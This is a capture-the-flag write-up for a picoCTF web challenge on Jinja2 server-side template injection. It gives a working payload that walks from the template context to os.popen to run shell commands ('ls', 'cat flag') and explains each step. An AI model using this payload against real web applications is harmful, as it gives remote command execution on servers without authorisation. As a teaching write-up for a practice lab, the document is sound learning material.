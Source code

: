 ## Challenge 🧩

I made a cool website where you can announce whatever you want! Try it out!

Author: Venax</br>
Points: 100

Hint: Server Side Template Injection

## Solution 🕵️‍♂️

Using Jinja2 Server-Side Template Injection payload.

```jinja2
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}
```

1. **`self._TemplateReference__context`**
   Accesses the internal Jinja2 template context object, which isn't normally exposed — this is already a form of bypass.

2. **`.cycler`**
   The `cycler` is a function available in Jinja2 templates (e.g., for alternating row colors). It's used here not for its real purpose, but because it has a reference to its own `__init__`.

3. **`.cycler.__init__.__globals__`**
   From the `cycler` function's `__init__` method, we access the `__globals__` dictionary — which contains references to global variables and modules, **including `os`**.

4. **`.os.popen('ls').read()`**
   Once we have access to the `os` module, we use `os.popen()` to execute a shell command — in this case, `ls` — and then `.read()` to capture and print the output.

Replacing `ls` with `cat flag`  

```jinja2
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}
```

![flag](src/SSTI1_flag.PNG)

## Flag 🚩

`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_xxxxxxxx}`
